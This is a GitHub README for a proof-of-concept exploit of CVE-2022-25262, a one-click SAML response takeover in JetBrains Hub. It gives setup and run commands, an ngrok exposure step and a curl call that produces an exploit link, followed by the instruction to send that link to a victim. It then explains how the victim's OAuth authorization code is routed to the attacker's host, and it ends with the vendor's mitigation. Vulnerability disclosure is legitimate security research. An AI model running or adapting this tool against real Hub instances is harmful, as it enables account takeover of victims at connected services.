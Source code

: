 # CVE-2022-25262
PoC + vulnerability details for CVE-2022-25262 | JetBrains Hub single-click SAML response takeover

<!-- TOC -->

- [CVE-2022-25262](#cve-2022-25262)
  - [Requirements](#requirements)
  - [Usage](#usage)
  - [How does it work?](#how-does-it-work)
    - [Authorization code pool for "OAuth2 -> SAML" exchange](#authorization-code-pool-for-oauth2---saml-exchange)
    - [YouTrack Konnector OAuth2 authorization code takeover (by design)](#youtrack-konnector-oauth2-authorization-code-takeover-by-design)
    - [Mitigation](#mitigation)

<!-- /TOC -->

## Requirements

- JetBrains Hub <2022.1.14434
- JetBrains Hub configured as SAML IdP 
- Installed "YouTrack Konnektor" service (bundled with YouTrack)

## Usage

Install & run:
```powershell
$ git clone https://github.com/yuriisanin/CVE-2022-25262
$ cd CVE-2022-25262/
$ pip3 install -r requirements.txt
$ python3 exploit.py -h

  usage: exploit.py [-h] [-p P]

  optional arguments:
    -h, --help  show this help message and exit
    -p P        Uvicorn port
    
# If you run the exploit on the local machine, you might need to use Ngrok or alternatives.
$ ngrok http 8000
```

Usage:

1. Use "GET /get-exploit-link" endpoint to get exploit link
2. Send the link to a victim

Query parameters:

| Name | Description | Required |
| ---- | ----------- | -------- |
| **hub_url** | URL of the target Hub instance | ✅ |
| **issuer** | SAML issuer | ✅ |
| **acs_url** | assertion consumer service URL | ✅ |
| **youtrack_url** | URL of the YouTrack instance connected with the Hub (required if guest user is disabled) | ❔ |

Get exploit link:

```powershell
$ curl -v "http://{exploit-host}/get-exploit-link?hub_url=https://hub.jetbrains.com&issuer=jbs.zendesk.com&acs_url=https://jbs.zendesk.com/access/saml"

* Trying {exploit-host-ip}:80...
* Connected to {exploit-host} ({exploit-host-ip}) port 80 (#0)
> GET /get-exploit-link?hub_url=https://hub.jetbrains.com&issuer=jbs.zendesk.com&acs_url=https://jbs.zendesk.com/access/saml HTTP/1.1
> Host: {exploit-host-ip}
> User-Agent: curl/7.77.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Content-Length: 341
< Content-Type: application/json
< Date: Sat, 30 Apr 2022 19:14:45 GMT
< Server: uvicorn
< 
* Connection #0 to host {exploit-host-ip} left intact

{"exploit_url":"https://hub.jetbrains.com/api/rest/oauth2/auth?client_id=fd6b45e6-4a91-4574-9fcf-ebc6926f6378&response_type=code&scope=Hub+YouTrack+TeamCity+Upsource+fd6b45e6-4a91-4574-9fcf-ebc6926f6378&state=fhdyaaf&access_type=offline&redirectURI=https://konnector.services.jetbrains.com/ring/oauth"}

```

**DEMO:**

[![CVE-2022-25262 Demo](https://img.youtube.com/vi/nJGqHy6kyWU/0.jpg)](https://www.youtube.com/watch?v=nJGqHy6kyWU)

## How does it work?

The weakness consists of 2 parts: 
- Usage of OAuth2 authorization code pool for "OAuth2 -> SAML" exchange process.
- Authorization code takeover using YouTrack Konnector integration.

### Authorization code pool for "OAuth2 -> SAML" exchange
 
SAML IdP works as an extension for OAuth. When a specific user wants to login into a specific service provider, he goes through the OAuth authorization code grant flow **(requests 1-2)**, and once the code is obtained it returns the code to the Hub **(request 3)**. Hub takes information about the user associated with the code, and issues a signed SAML response for the service. Even though SAML IdP uses Hub OAuth2 client (client_id=0-0-0-0-0), for the integration, it doesn't check on behalf of which OAuth client the code has been issued. The only thing that matters here is whether the code is valid. It might end up in SAML response takeover if the attacker finds a way to takeover authorization code from any OAuth client registered in the Hub. 

![oauth2-saml-exchange](https://github.com/yuriisanin/CVE-2022-25262/blob/875e07d82357679d745d2ac2aec91d39edd9488f/assets/oauth2-saml.png)

### YouTrack Konnector OAuth2 authorization code takeover (by design)

YouTrack Konnector is a first-party service that allows connecting a specific YouTrack instance with their Slack bot. The service takes the URL address of a YouTrack and both the id and secret of the Konnector OAuth client **(request 1)**. Then it tries to verify that provided URL points to a valid YouTrack by calling several API endpoints **("handshake" requests 2-3)**. If everything goes well, Konnector will return the URL that would allow a specific user to proceed with the OAuth code grant flow **(response 1)**. The URL contains a "state" query parameter that helps Konnector routing OAuth authorization code to the proper handler (Hub instance).
An attacker could create a host with endpoints required for the "handshake" and obtain a "state" parameter that points to the attacker's host. After that, an attacker could craft OAuth authorization URL and send it to a victim.
If the victim clicks on the link and finishes the OAuth flow (the victim needs to have a valid session in Hub), the Konnector service will receive the code and send it to the attacker's host **(requests 4-6)**.

![slack-service-authz-code-takeover](https://github.com/yuriisanin/CVE-2022-25262/blob/875e07d82357679d745d2ac2aec91d39edd9488f/assets/slack-service-authz-code.png)

### Mitigation

The YouTrack team added a check that allows using of authorization codes issued for the "JetBrains Hub Service" OAuth client during the "OAuth2 -> SAML" exchange process. Consequently, there's no way to exchange authorization codes issued for the "YouTrack Konnector" OAuth client. 


## Support

You can follow me on [Twitter](https://twitter.com/SaninYurii), [GitHub](https://github.com/yuriisanin) or [YouTube](https://www.youtube.com/channel/UCLN2EvGxtnucEdrI21PmJZg).
